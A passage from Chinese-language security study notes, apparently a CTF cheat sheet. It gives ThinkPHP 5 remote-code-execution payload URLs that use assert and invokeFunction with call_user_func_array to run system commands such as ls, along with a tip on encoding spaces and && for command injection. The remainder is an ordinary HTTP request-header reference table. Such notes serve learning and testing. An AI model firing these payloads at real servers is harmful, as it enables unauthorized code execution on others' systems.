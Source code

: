 不能使用空格隔开，可用%20或者+代替，%26%26为&&，&&意思是当前面命令执行成功时，继续执行后面的命令。

### php-rce（thinkphp5 ）

远程代码执行漏洞

```url
http://127.0.0.1/public/index.php?s=index/\think\Request/input&data=phpinfo()&filter=assert
```

```url
//执行php命令
index.php?s=index/think\App/invokeFunction&function=call_user_func_array&vars[0]=var_dump&vars[1][]=111
//执行系统命令
index.php?s=index/think\App/invokeFunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls
```



## HTTP Header

### request

| Header              | 解释                                                         | 示例                                                    |
| :------------------ | :----------------------------------------------------------- | :------------------------------------------------------ |
| Accept              | 指定客户端能够接收的内容类型                                 | Accept: text/plain, text/html                           |
| Accept-Charset      | 浏览器可以接受的字符编码集。                                 | Accept-Charset: iso-8859-5                              |
| Accept-Encoding     | 指定浏览器可以支持的web服务器返回内容压缩编码类型。          | Accept-Encoding: compress, gzip                         |
| Accept-Language     | 浏览器可接受的语言                                           | Accept-Language: en,zh                                  |
| Accept-Ranges       | 可以请求网页实体的一个或者多个子范围字段                     | Accept-Ranges: bytes                                    |
| Authorization       | HTTP授权的授权证书                                           | Authorization: Basic QWxhZGRpbjpvcGVuIHNlc2FtZQ==       |
| Cache-Control       | 指定请求和响应遵循的缓存机制                                 | Cache-Control: no-cache                                 |
| Connection          | 表示是否需要持久连接。（HTTP 1.1默认进行持久连接）           | Connection: close                                       |
| Cookie              | HTTP请求发送时，会把保存在该请求域名下的所有cookie值一起发送给web服务器。 | Cookie: $Version=1; Skin=new;                           |
| Content-Length      | 请求的内容长度                                               | Content-Length: 348                                     |
| Content-Type        | 请求的与实体对应的MIME信息                                   | Content-Type: application/x-www-form-urlencoded         |
| Date                | 请求发送的日期和时间                                         | Date: Tue, 15 Nov 2010 08:12:31 GMT                     |
| Expect              | 请求的特定的服务器行为                                       | Expect: 100-continue                                    |
| From                | 发出请求的用户的Email                                        | From: user@email.com                                    |
| Host                | 指定请求的服务器的域名和端口号                               | Host: www.zcmhi.com                                     |
| If-Match            | 只有请求内容与实体相匹配才有效                               | If-Match: “737060cd8c284d8af7ad3082f209582d”            |
| If-Modified-Since   | 如果请求的部分在指定时间之后被修改则请求成功，未被修改则返回304代码 | If-Modified-Since: Sat, 29 Oct 2010 19:43:31 GMT        |
| If-None-Match       | 如果内容未改变返回304代码，参数为服务器先前发送的Etag，与服务器回应的Etag比较判断是否改变 | If-None-Match: “737060cd8c284d8af7ad3082f209582d”       |
| If-Range            | 如果实体未改变，服务器发送客户端丢失的部分，否则发送整个实体。参数也为Etag | If-Range: “737060cd8c284d8af7ad3082f209582d”            |
| If-Unmodified-Since | 只在实体在指定时间之后未被修改才请求成功                     | If-Unmodified-Since: Sat, 29 Oct 2010 19:43:31 GMT      |
| Max-Forwards        | 限制信息通过代理和网关传送的时间                             | Max-Forwards: 10                                        |
| Pragma              | 用来包含实现特定的指令                                       | Pragma: no-cache                                        |
| Proxy-Authorization | 连接到代理的授权证书                                         | Proxy-Authorization: Basic QWxhZGRpbjpvcGVuIHNlc2FtZQ== |